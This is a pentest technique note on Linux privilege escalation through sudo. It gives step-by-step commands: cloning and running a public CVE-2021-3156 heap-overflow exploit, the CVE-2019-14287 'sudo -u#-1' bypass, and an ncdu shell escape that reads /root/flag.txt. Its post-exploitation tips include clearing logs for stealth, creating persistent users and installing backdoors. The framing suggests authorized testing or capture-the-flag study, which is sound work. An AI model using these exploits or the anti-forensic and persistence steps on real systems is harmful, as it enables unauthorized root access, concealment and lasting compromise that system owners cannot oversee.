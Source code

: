 ### 1. Technique Name:

Sudo Exploitation
### 2. Summary:

`sudo` is a Linux utility that allows permitted users to execute commands as another user, typically root. If misconfigured or outdated, it can be abused for privilege escalation. Vulnerabilities such as CVE-2019-14287 and CVE-2021-3156 allow bypassing defined sudo policies or triggering memory corruption for root shells. Additionally, some binaries allowed through `sudo` can be chained or hijacked to spawn a root shell.
### 3. Conditions / Requirements:

- `sudo` binary present on the system    
- User has limited or specific `sudo` rights (as seen via `sudo -l`)
- One or more of:
    - Vulnerable version of `sudo`    
    - Misconfigured `sudoers` entries (e.g., `sudo -u#-1`)
    - Binaries allowed that enable command execution (e.g., `ncdu`, `less`, `find`)    
- (For CVEs) Correct matching libc/sudo version
### 4. Enumeration Steps:
#### A. Check Sudo Permissions:

```bash
sudo -l
```
#### B. Check Sudo Version:

```bash
sudo -V | head -n1
```
#### C. Inspect Sudoers File (if permitted):

```bash
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```
### 5. Exploitation Steps:
#### A. CVE-2021-3156 – Heap Buffer Overflow in Sudo (root shell)

Affected Versions:

- `sudo` 1.8.2 through 1.8.31p2    
- Includes Ubuntu 20.04 (1.8.31), Debian 10 (1.8.27), Fedora 33 (1.9.2)

Steps:

```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich <target_id>
```

Example:

```bash
./sudo-hax-me-a-sandwich 1  # For Ubuntu 20.04
id                          # Should return uid=0(root)
```
#### B. CVE-2019-14287 – Sudo UID -1 Bypass

Condition:  
`sudoers` entry like:

```bash
cry0l1t3 ALL=(ALL) /usr/bin/id
```

Exploit:

```bash
sudo -u#-1 id
# → Escalates to UID 0 (root) due to -1 being interpreted as unsigned 0
```
#### C. Sudo + `ncdu` Binary Abuse with UID -1 Trick

Scenario:

```bash
User may run: (ALL, !root) /bin/ncdu
```

Exploit:

```bash
sudo -u#-1 /bin/ncdu
```

- Once inside `ncdu`, press `b` to spawn a shell.    
- Then run:

```bash
cat /root/flag.txt
```

> Note: `ncdu` checks environment variables like `SHELL` or `NCDU_SHELL`. It will default to `/bin/sh` and drop into a root shell when run under UID 0.
### 6. Post-Exploitation Tips:

- Clean up any modified `.bashrc`, dropped shells, or evidence in logs if stealth is necessary    
- If you obtain full sudo (`sudo su`), create a persistent user or install a backdoor only if allowed
- Log all misconfigurations for reporting and remediation
### 7. Example / Notes:

- Sudo Permissions Enumeration:    

```bash
sudo -l
```

- Triggering CVE-2019-14287:

```bash
sudo -u#-1 /usr/bin/id
# uid=0(root) ...
```

- `ncdu` Binary PrivEsc via Sudo:

```bash
sudo -u#-1 /bin/ncdu
# Press b inside ncdu interface
```

- Spawn shell via environment variable (optional if allowed):

```bash
export NCDU_SHELL=/bin/bash
sudo -u#-1 /bin/ncdu
```

- CVE-2021-3156 Exploit Use:

```bash
sudo -V
cat /etc/lsb-release
./sudo-hax-me-a-sandwich 1
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #sudo_abuse #sudo